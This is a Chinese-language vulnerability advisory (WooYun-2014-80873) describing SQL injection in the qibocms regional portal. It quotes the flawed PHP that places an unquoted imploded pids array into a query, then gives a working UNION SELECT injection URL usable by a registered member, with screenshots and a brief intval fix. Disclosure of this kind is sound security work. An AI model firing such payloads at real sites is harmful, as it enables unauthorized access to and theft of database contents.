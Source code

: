 ## WooYun-2014-80873：qibocms 地方門戶系統 注入#3


## **詳細說明**

在/hy/member/homepage_ctrl.php 中

```php
if($atn&&eregi("^([_a-z0-9]+)$",$atn)&&is_file(dirname(__FILE__)."/homepage_ctrl/$atn.php")){

    require_once(dirname(__FILE__)."/homepage_ctrl/$atn.php");

}
```
include進來
<br />
hy\member\homepage_ctrl\pic_edit.php中
```php
if(count($pids)<1) showerr("至少選擇一項");

$pids=implode(",",$pids);

$query=$db->query("SELECT * FROM {$_pre}pic WHERE pid IN($pids) ORDER BY orderlist DESC");

while($rs=$db->fetch_array($query)){

    $rs[posttime]=date("Y-m-d H:i:s",$rs[posttime]);

    //$rs[url]=$webdb[www_url]."/".$user_picdir.$rs[url];

    $rs[url]=tempdir($rs[url]);

    $listdb[]=$rs;

}
```

$pids=implode(",",$pids); 這裡成字符串後 然後就直接帶入到了查詢當中
且無單引號。
所以可以直接注入了。
註冊個會員
```sh
hy/member/homepage_ctrl.php?atn=pic_edit&pids[]=1) union select 1,2,3,4,user(),6,7,8,9,10,11,12%23
```

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.28/3.28-1.jpg)

測試DEMO

---

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.28/3.28-2.jpg)

---

構造語句

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.28/3.28-3.jpg)



## **修復方案**


使用`intval`